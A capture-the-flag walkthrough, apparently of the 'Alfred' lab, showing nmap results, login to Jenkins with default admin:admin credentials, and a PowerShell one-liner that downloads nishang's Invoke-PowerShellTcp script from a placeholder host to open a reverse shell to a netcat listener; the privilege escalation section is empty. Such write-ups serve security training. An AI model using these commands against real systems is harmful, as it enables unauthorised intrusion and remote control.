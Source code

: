 # Alfred

IP Address: 10.10.60.65

## Description

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access. 

## Flags

1. 
2. 
3.

## Enumeration/Scanning

### Nmap:
```sh
sudo  nmap -Pn  -p1-10000 -vv -sC -oN alfred.nmap 10.10.253.237
# Nmap 7.92 scan initiated Wed Sep 28 21:16:47 2022 as: nmap -Pn -p1-10000 -vv -sC -oN alfred.nmap 10.10.253.237
Nmap scan report for 10.10.253.237
Host is up, received user-set (0.17s latency).
Scanned at 2022-09-28 21:16:59 PDT for 31s

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server syn-ack ttl 127
| ssl-cert: Subject: commonName=alfred
| Issuer: commonName=alfred
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2022-09-28T03:44:49
| Not valid after:  2023-03-30T03:44:49
| MD5:   f15a ae7e e244 e120 c763 a386 2219 e260
| SHA-1: 0bb8 058f dc67 c558 0564 b9f7 d48b 0289 98ef ca94
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQIhDB6uMfHLBKikg4+ZpHMzANBgkqhkiG9w0BAQUFADAR
| MQ8wDQYDVQQDEwZhbGZyZWQwHhcNMjIwOTI4MDM0NDQ5WhcNMjMwMzMwMDM0NDQ5
| WjARMQ8wDQYDVQQDEwZhbGZyZWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQC2TBp0E9a2bzlmG1Pw7fnOg3fuuSPa7Onj045hnmlWkK1ODN+iiG5/1cHZ
| Tn5mJkZI3fKj5Ng9IuA4xR5JHOb8SZ2aBGtRCnJnzI2MO61dZHXtkWvwyMjx6/5A
| vQM+A7BZMmxk/Gd1aQvJPbU/gp19ZBEhjESvNn0U8LR+4JHBUB6K/8XX1IfFFKZ6
| xlussnH1Zt6pu5gfQEuygI6nI0IHb8Uy2f99G5N0/4xqLh9u2cPPh6PJD9j2wElB
| WUMdLM6hDqPwclInQqf6LmFFgzrEIqaAGGs/QYZ45y4WlpJzpWK19FDV5MilCCkY
| R/RTQhQk6Xp47jnq0Je23oKP64QNAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQUFAAOCAQEAX6vTZ3ux/N5qnJ2W
| gxiSjU4sLdqPGcU2Z70Got2eYSJPCNcmyVC+CHe/VkKTXjYTzVSQiMJ/oiYGB3ZF
| CjjgnuryaZ6LhgMTwhJU8oy5NAstg7akI/mA80JDYhn7JLEd47AL28qC+kmJDyx+
| 5jDDiB63H6IH3eejc0KjiKFUXNhcRrSdc9jZXXl7cFJuEDWlCqIWARjOmRxvf7ae
| ImnHil0vqjK6szH19XEpOyMReQM6DmkWezLzkAVPgmJQX1h4rTVXRDOwF03+aFXv
| 5SOJhpflFfXkBY1OtwkrWU++0HrQy+rW6nvzfG9vIEXKWJXEyUzMzPqVSrj0FGGE
| ATB0Sw==
|_-----END CERTIFICATE-----
8080/tcp open  http-proxy    syn-ack ttl 127
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep 28 21:17:30 2022 -- 1 IP address (1 host up) scanned in 43.14 seconds
```
### Web Server

#### Port 8080

![Welcome to Jenkins](img/jenkins.png)

**We noice that Using the default credentials (admin:admin), we can gain access to the web server.**

## Exploitation

Searching through this platform, we find [Jenkins](https://www.jenkins.io/doc/book/managing/cli/), giving us valuable information on using a CLI client (with our credentials) to execute commands on the machine.

```sh
java -jar jenkins-cli.jar -s http://10.10.253.237:8080/ -auth admin:admin who-am-i
Authenticated as: admin
Authorities:
  authenticated
```

However, this leads to a dead end. Continuing our search by clicking on project, then configure, we find a window allowing us to execute windows batch commands.

We can now upload a reverse shell payload. We will be using the `Invoke-PowershellTcp.ps1` shell from the [nishang](https://github.com/samratashok/nishang) repo. After starting a python server, we can upload our payload, start a `nc` listener, then execute!

```sh
sudo python3 -m http.server 80
```

```sh
sudo nc -nvlp 4444
```

```
powershell iex (New-Object Net.WebClient).DownloadString(‘http://LOCAL_IP:80/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 4444
```


#### Privilege Escalation


